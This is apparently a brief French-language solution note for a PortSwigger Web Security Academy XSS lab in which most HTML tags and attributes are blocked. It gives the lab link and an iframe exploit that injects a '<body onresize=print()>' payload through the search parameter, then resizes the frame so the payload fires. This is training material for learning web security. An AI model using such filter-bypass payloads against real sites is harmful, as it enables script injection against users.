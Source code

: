 # Lab

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked

## Payload

Exploit à délivrer : 

```html
<iframe src="https://0ac3008104e26490812afcb900d000b5.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" onload="this.style.width= '1000px'">
</iframe>
```

Payload seul : `<body onresize=print()>`

Ensuite faire un iframe qui se resize pour éxécuter le payload.